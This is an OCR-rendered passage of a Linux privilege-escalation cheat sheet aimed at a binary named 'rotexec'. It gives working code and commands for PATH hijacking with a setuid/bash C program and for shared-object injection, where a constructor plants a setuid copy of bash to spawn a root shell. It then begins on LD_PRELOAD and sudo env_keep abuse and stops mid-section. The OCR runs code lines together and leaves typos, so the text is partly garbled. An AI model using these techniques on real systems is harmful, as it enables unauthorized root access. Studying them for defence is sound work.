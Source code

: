 **assume binary’s name you want to exploit is rotexec**

#### **1- PATH manipulation**

Technique taht you add a new path that system search for executables in it

```
**echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/rotexec.cgcc /tmp/rotexec.c -o /tmp/rotexecexport PATH=/tmp:$PATH**
```

#### **2- Object Injection**

*   **first What is .so Files**

    > .so is refers to Shared Library files are similar to Dynamic Link Library (DLL) files Library : is A group Of classes + Functions Predefined You Can use it to ease coding shared Library is a library Loaded in memory called in runtime can be called from many applications in same time
*   **first Find shared Object for the binary , locate its path**

    ```
    strace /usr/bin/rotexec 2>&1 |grep 'so' |grep -i -E 'open|access|no such file'
    ```
*   **assume we find a file /usr/share/.config/libca.so**

    replace it with a shell\_spawner.c

    ```
    //shell_spawner.c#include <stdio.h>#include <stdlib.h>static void inject() __attribute__((constructor));void inject() {    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");}
    ```
*   **compile shell\_spawner.c to be .so file with the same name & path for targeted shared object**

    ```
    **gcc -shared -o**  /usr/share/.config/libca.so **-fPIC**  /tmp/shell_spawner.c
    ```

    run the binary = get a root shell

#### **3- Un reset environment Variables Leads to Load Mlaicious Libraries**

## \[A] **LD\_PRELOAD**

*   **Check Line**

    ![](https://0xbugatti.io/_astro/09Untitled.l0lRtVK8_Zv1Gu2.webp)

    Defaults        env\_reset

    \#this means reset the environment variables values before executing any command as sudo

    Defaults        env\_keep+=LD\_PRRELOAD

    \#this means dont reset the environment variable LD\_PRELOAD value

    **LD\_PRELOAD what is that ?**
